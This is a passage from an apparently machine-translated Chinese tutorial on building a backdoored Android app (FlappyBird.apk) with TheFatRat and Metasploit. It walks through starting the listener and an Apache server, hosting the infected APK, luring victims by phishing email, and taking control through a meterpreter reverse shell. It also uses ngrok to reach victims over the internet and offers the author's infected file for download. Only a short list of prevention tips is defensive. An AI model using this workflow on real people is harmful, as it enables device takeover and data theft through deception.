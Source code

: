 `> set LPORT [The same as FatRat process]`

`> exploit`(跑步)

检查 Apache 服务状态(已经安装)

```
systemctl status apache2
```

正在启动服务

```
systemctl start apache2
```

为受害者安置被感染的**后门**(改名或不改名)

`/var/www/html/`目录

## 结束的

在这个局域网环境中，攻击者需要向受害者暴露 Apache 服务器上的这个新的**感染的 APK** ，通过发送一封带有链接的假电子邮件或任何其他方式来欺骗人们在他们的 Android 设备上下载新的 **FlappyBird.apk** 。

一旦受害者下载并打开应用程序，将使用`meterpreter`(有效负载)shell 在监听器上成功创建一个新会话。

攻击者现在可以完全访问目标自定义攻击，或者从 **CLI** 执行某些权限**提升**。

您可以列出会话，例如:

您还可以使用-i 标志选择活动会话并与之交互

`> sessions -i 1`

你可以在这里下载我被感染的文件

我不太确定把你的 **Kali 机器**设置成我以前用的静态 IP 地址，是否能让这个**恶意软件**正常工作。但是，如果是这样的话，我的工作 IP 地址是一个 C 类 IP 地址`192.168.2.120`和 4444 端口。

## 从兰到万

扩展本地 IP 地址的一个简单方法是使用一个简单的名为 [ngRok](https://ngrok.com/) 的隧道工具。这个工具将一个简单的`127.0.0.1`转换成所有公众都可以访问的东西。

查看文档了解安装步骤和**认证令牌**设置。

之后，您可以为 TCP 连接设置 **ngrok** 命令，例如:

`ngrok tcp 1234`为 **TCP** 协议上的 **1234** 协议

整个过程是一样的，但是你需要用 **ngrok** 提供给你的元素替换 **LHOST** (来自 **ngrok** 的 Web 接口)和 **LPORT** (来自 ngrok TCP 连接的端口)。

# 预防的提示

1.  让您的 Android 设备保持最新(补丁和操作系统版本)
2.  千万不要下载任何**。来自不可信来源的 apk**
3.  总是检查网址故意拼错域名
4.  自学

狩猎愉快:)